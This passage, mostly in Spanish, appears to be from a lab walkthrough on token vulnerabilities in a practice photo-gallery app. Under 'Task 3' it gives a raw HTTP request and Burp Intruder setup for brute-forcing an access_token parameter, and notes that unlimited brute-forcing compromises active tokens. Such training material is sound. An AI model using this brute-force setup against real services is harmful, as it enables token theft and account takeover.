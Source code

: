 ```
Upgrade-Insecure-Requests: 1
```

> \[Nota] Asegúrese de reemplazar el código de acceso en la solicitud anterior con el que recibe de la solicitud anterior a esta.

Tarea 3. Descubre otra vulnerabilidad de token

```
# At /photos/me?access_token=[code] you are able to bruteforce the valid token. This will require the following Burp Intruder configuration:  

GET /photos/me?access_token=§§ HTTP/1.1
Host: gallery:3005
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

> De esta manera, un atacante puede comprometer tokens activos a través de la fuerza bruta de forma ilimitada.

> \[Nota] En una aplicación real, puede haber varios tokens activos. Como solo tenemos un token activo, el tiempo para el refuerzo bruto podría ser mucho más largo.
